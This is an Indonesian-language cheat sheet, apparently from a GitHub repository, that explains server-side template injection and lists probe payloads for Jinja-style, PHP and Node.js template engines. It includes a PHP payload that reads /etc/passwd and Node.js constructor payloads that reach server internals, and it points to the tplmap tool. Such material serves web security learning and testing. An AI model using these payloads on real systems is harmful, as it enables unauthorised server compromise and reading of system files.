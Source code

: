 # Server-Side Template Injection (SSTI)
## Definisi
Serangan SSTI adalah saat penyerang dapat menggunakan *native template syntax* untuk menginjeksi *payload* berbahaya ke dalam sebuah template, dan akan dieksekusi di sisi server (*server-side*).

## Cara Mencari Kerentanan SSTI
Di setiap input form coba masukkan command berikut:
* {7*7}
* {{ '7'*7 }}
* {{ [].class.base.subclasses()}}
* {{''.class.mro()[1].subclasses()}}
* {% for c in [1,2,3] %}{{ c,c,c }}{% endfor %}
* {{ [].__class__.__base__.__subclasses__() }}

Apabila website menggunakan PHP Base, coba command berikut:
* {php}print "Hello"{/php}
* {php}$a = file_get_contents('/etc/passwd',NULL, NULL, 0, 100); var_dump($a);{/php}

Apabila website menggunakan backend Node.js, coba command berikut:
* {{ this }}-> [Object Object]
* {{ this.__proto__ }}-> [Object Object]
* {{ this.__proto__.constructor.name }}-> Object
* {{this.constructor.constructor}}
* {{this.constructor.constructor('process.pid')()}}

Apabila command-command diatas ada yang tereksekusi, maka kemungkinan target tersebut rentan akan serangan SSTI. 
Sumber :
* https://portswigger.net/web-security/server-side-template-injection
* https://twitter.com/jae_hak99/status/1331967876417327104?s=20


## Tool yang bisa digunakan 
[tplmap](https://github.com/epinna/tplmap)

## Author
[rad1zly](https://github.com/rad1zly/)
